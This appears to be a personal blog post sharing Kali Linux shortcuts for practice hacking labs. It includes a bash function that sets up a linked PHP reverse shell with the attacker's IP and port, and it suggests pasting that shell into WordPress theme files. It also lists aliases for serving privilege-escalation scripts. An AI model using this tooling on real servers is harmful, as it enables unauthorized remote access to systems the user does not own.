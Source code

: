 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
 - PHP Reverse Shell
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain repeated processes when hacking boxes. Life's too short to be wasting time on such things.

---

## PHP Reverse Shell Generator

This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. 

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal. The original script can be found on [Pentestmonkey here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`
<br>e.g. `phprev tun0 1234`


~~~bash
# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}
~~~

If you need to copy and paste the script somewhere(e.g wordpress theme files), just use the following to have the contents copied to your clipboard quickly:

~~~bash
cat rev.php | xclip -sel clip
~~~

---

## Bash Aliases

Sometimes you have many folders that you need to navigate quickly, or long commands that you type. These can be shortened, saving lots of time and gives great convenience in the long run. This is a sample of what I have inside my `/root/.bash_aliases` file. If you don't have it. After adding aliases in, restart your terminal.

~~~bash
# Directories

alias htb='cd ~/0x4a/Hackthebox'
alias vhl='cd ~/0x4a/VirtualHackingLabs'
alias pwk='cd ~/0x4a/PWK'
alias scripts='cd ~/Try-Harder/Scripts'
alias linenum='cd ~/Try-Harder/Scripts/Linux-PrivEsc'
alias hostlse='cd ~/Try-Harder/Scripts/Linux-PrivEsc && python -m SimpleHTTPServer'
alias armoury='cd ~/The-Armoury'

# vpn

alias ovpn='openvpn ~/0x4a/Hackthebox/openvpn/Dreamscent.ovpn'

# Other

alias hosts='nano /etc/hosts'
alias tun0='ifconfig tun0 | head -n2'
alias ppp0='ifconfig ppp0 | head -n2'
alias pyhttp='python -m SimpleHTTPServer'
~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
